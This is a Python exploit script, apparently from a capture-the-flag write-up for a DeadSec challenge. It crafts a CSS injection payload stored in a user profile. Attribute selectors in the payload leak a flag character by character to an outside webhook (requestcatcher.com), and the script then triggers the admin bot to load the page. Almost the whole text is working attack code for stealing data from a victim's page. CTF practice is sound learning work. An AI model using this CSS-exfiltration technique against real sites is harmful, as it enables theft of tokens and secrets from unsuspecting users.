 ```py

def getAllPosts(accessToken=TOKEN):
    url = baseURL + "/post"
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    res = r.text
    posts = re.findall("/post/[0-9a-f]{24}", res)
    return posts

def getPost(postURL, accessToken=TOKEN):
    url = baseURL + postURL
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    return r

def sendAdmin(postid, accessToken):
    url = 'https://b2c742d9f8b3584414958c4e.deadsec.quest/admin/report?url=http://localhost:1337/post/edit/' + postid
    sendCookie = {"accessToken": accessToken}
    return requests.get(url, cookies=sendCookie)


user = str(urandom(16).hex())
print("User:",user)
passwd = user

# Crafting the Exploit
# characters = "ABCDEFGHIJKLMNOPQRSTUVXYZ"
characters = "abcdefghijklmnopqrstuvwxyz1234567890_"
flag = "DEAD{Enj0y_y" # Enter the next character after viewing it on the webhook
finalExploit = '#369369; } '
for letter in characters:
    letterExploit = 'input[class=user][value^="'+ flag + letter + '"] {background: url(https://dragon.requestcatcher.com/' + flag+letter+');} '
    finalExploit += letterExploit
letterExploit = 'input[class=user][value^="'+ flag + '}' + '"] {background: url(https://dragon.requestcatcher.com/' + flag+'}'+'); '
finalExploit += letterExploit
print(finalExploit)

print("Register:", register(user, passwd, finalExploit).json())

res = login(user, passwd).json()
token = res["accessToken"]
print(f"{token=}")

title = "RandomHacker"
content = "RandomHacker"
print("Write:", write(title, content, token).text)

myPosts = getAllPosts(token)
print("Posts:")
for post in myPosts:
    print(post[6:], sendAdmin(post[6:], token).text)
```
